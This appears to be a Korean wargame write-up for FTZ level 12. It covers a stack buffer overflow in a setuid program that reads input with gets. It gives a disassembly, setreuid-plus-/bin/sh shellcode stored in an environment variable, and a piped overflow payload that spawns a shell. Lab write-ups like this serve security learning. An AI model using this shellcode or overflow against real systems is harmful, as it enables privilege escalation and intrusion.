 # level 12

* id : `level12`
* pw : `it is like this`

![](./img/2021-11-08-20-45-45.png)

level 11과 유사하지만, 이번엔 `gets`를 이용하고 `Format string` 공격이 불가능하다.


```python
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108            # 배열 길이
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc15
0x08048481 <main+17>:   push   0xc15
0x08048486 <main+22>:   call   0x804835c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0xc
0x08048491 <main+33>:   push   0x8048538
0x08048496 <main+38>:   call   0x804834c <printf>
0x0804849b <main+43>:   add    esp,0x10
0x0804849e <main+46>:   sub    esp,0xc
0x080484a1 <main+49>:   lea    eax,[ebp-264]
0x080484a7 <main+55>:   push   eax
0x080484a8 <main+56>:   call   0x804831c <gets>
0x080484ad <main+61>:   add    esp,0x10
0x080484b0 <main+64>:   sub    esp,0x8
0x080484b3 <main+67>:   lea    eax,[ebp-264]
0x080484b9 <main+73>:   push   eax
0x080484ba <main+74>:   push   0x804854c
0x080484bf <main+79>:   call   0x804834c <printf>
0x080484c4 <main+84>:   add    esp,0x10
0x080484c7 <main+87>:   leave
0x080484c8 <main+88>:   ret
0x080484c9 <main+89>:   lea    esi,[esi]
0x080484cc <main+92>:   nop
0x080484cd <main+93>:   nop
0x080484ce <main+94>:   nop
0x080484cf <main+95>:   nop
```

`level11`과 유사하다. 마찬가지로 환경변수에 쉘코드를 집어넣고 BOF를 시도해 보겠다.

```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```

![](./img/2021-11-10-13-08-42.png)

![](./img/2021-11-10-13-09-18.png)

`level11` 처럼 환경변수의 주소 획득, `0xbffffc90` 인것을 알수 있다.

하지만 문제점이, 여기선 argv를 사용하지 않고 프로그램을 연 후 input으로 해야된다.

그렇기 때문에 [파이프라인](https://en.wikipedia.org/wiki/Pipeline_(Unix)) 을 이용해서 입력값에다가 원하는 코드를 입력하면 정상적으로 쉘코드 주입이 완료된다.

```bash
(python -c 'print "A"*(0x10c) + "\x90\xfc\xff\xbf"'; cat) | ./attackme
```
`(python -c 'print "A"*(0x10c) + "\x90\xfc\xff\xbf"'; cat)` 은 파이썬 명령을 실행하고 그걸 그대로 출력하게 만들어주고, 그 결과를 `pipe` 를 통해 attackme 에 대한 입력값으로 넣어준다.

![](./img/2021-11-08-21-05-16.png)

GG!
